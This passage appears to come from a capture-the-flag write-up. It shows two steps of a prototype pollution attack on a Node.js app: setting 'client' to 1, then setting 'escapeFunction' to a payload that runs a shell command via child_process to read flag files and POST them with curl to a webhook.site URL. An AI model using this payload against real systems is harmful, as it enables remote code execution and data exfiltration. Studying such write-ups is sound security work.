 2 - Starting of the changing the two properties in interest which are `client` and `escapeFunction`. Polluting client with the value `1`:

![alt text](<../assets/img/blog/blackhat/fds/clients.png>)

3- Polluting the `escapeFunction` with the value `JSON.stringify; process.mainModule.require('child_process').exec('cat /tmp/flag*.txt | curl -X POST -d @- https://webhook.site/xxxxxxxxx')`:

![alt text](<../assets/img/blog/blackhat/fds/escape.png>)
